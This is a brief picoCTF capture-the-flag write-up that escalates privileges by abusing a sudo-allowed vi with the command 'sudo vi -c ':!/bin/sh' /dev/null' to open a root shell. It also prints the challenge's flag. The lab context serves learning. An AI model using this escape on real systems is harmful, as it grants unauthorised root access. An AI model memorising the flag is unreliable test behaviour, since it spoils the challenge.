

In this task, we need to see what commands our user can execute, elevate privileges, and obtain a flag.

Unexpectedly, but it is very similar to `hijacking` task.

---

Using `sudo -l`, we can see which commands we can execute as the user `picoplayer`.:


> [!TIP]
> Check [gtfobins/vi](https://gtfobins.github.io/gtfobins/vi/) and scroll to the last `sudo` command.  

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

a shell opens, where we search for `.flag.txt`:





`picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}`
